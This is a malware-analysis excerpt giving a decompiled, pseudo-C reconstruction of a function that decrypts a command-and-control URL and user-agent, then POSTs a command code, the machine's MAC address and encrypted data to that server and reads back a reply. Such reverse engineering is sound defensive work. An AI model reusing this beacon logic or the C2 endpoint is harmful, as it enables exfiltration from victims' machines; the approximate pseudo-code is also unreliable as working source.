 The whole function written in understandable C code:

```cpp
void RequestAndSend(int code, x, char* additional_data, int additional_data_len, char*& result, int* result_len) {
  SetData(full_url, 0, 0x1000);
  SetData(hostname, 0, 0x1000);
  SetData(ebp_ffffaf28, 0, 0x1000);
  SetData(ebp_2106, 0, 0x0ffe);

  strcpy(full_url, offset_125f928);
  strcpy(client_string, offset_0125f5e0);

  __fastcall decrypt(full_url, count(full_url)); // http://old.jrchina.com/btob_asiana/udel_confirm.php
  __fastcall decrypt(client_string, count(client_string)); // Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/6.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; Tablet PC 2.0; .NET4.0E; InfoPath.3)

  s = strncmp(full_url, "https://", 8);
  if (!s) {
    port = 0x1bb;               // 443
    strcpy(hostname, ebp_10f8); // ebp_10f8 = &full_url - (8*2)
  }
  else {
    port = 0x50;                // 80
    strcpy(hostname, ebp_10fa); // ebp_10fa = &full_url - (7*2)
  }
  // hostname = "old.jrchina.com/btob_asiana/udel_confirm.php"

  s = strfind(hostname, "/"); // /btob_asiana/udel_confirm.php
  *s = 0;

  query_buffer_len = 80;
  internet_handle = InternetOpenW(client_string, 0, 0, 0, 0);
  // hostname = "old.jrchina.com" NULL "btob_asiana/udel_confirm.php"
  internet_connect_handle = InternetConnect(internet_handle, hostname, port, 0, 0, 3, 0, 0);
  request = HttpOpenRequestW(internet_connect_handle, "POST", ebp_ffffaf28, 0, 0, 0, 100, 0);

  send_data = alloc(additional_data_len + count(macaddr_01263d38));
  *send_data = code;
  strcpy(&send_data + 1, macaddr_01263d38, count(macaddr_01263d38));

  macaddr_len = count(macaddr_01263d38);
  if (additional_data) {
    strcpy(&send_data + 1 + macaddr_len, additional_data, additional_data_len);
    __thiscall encrypt(&send_data + 1 + macaddr_len, additional_data_len);
  }
  HtpSendRequestW(request, 0, 0, send_data, macaddr_len);

  HeapFree(send_data);

  // query status code
  HttpQueryInfoW(request, 0x13, query_buffer, &query_buffer_len, 0);

  if (query_buffer_len * 2 >= 100)
    func_01303e85();

  query_buffer[query_buffer_len * 2] = 0; // unicode => * 2, null terminate
  s = check_status_code(query_buffer);
  if (s != HTTP_STATUS_OK || result == 0 || result_len == 0)
    return;

  s = InternetReadFile(request, readfile_buffer, 0x0fd0, &readfile_buffer_len);
```